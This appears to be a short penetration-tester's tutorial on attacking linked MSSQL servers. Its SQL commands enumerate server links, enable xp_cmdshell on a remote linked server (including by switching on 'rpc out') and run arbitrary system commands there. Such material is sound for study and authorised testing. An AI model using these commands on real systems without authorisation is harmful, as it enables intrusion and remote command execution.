 # <h1 align="center" id="heading">Linked MSSQL Servers</h1>
There are a few ways that I can go about enumerating Linked MSSQL Servers within a domain environment. If I have RDP access or shell access through Impacket's mssqlclient.py, I can manually enumerate server links. I can also use my previously developed tradecraft to accomplish the same task. The base command to enumerate a server link is as follows:
```sql
exec sp_linkedservers;
```
If there is a server link, I can use openquery to run queries on the remote SQL server. I can select the MSSQL version with the following command:
```sql
select version from openquery("<target>", 'select @@version as version')
```
If I have access, I can enable xp_cmdshell through the server link with the following command:
```sql
exec ('sp_configure ''show advanced options'', 1; reconfigure;exec sp_configure ''xp_cmdshell'', 1; reconfigure;') at <target>;exec ('xp_cmdshell ''whoami'';') at <target>;
```
There may be a case where RPC is disabled on the remote server. In that case I can still enable xp_cmdshell with the following command:
```sql
exec sp_serveroption '<target>', 'rpc out', 'true';exec ('sp_configure ''show advanced options'', 1; reconfigure;exec sp_configure ''xp_cmdshell'', 1; reconfigure;') at <target>;exec ('xp_cmdshell ''whoami'';') at <target>;
```
If I get a username returned by either of the previous commands, I can use the following query string to execute commands on the remote server:
```sql
exec ('xp_cmdshell ''<command>'';') at <target>;
```
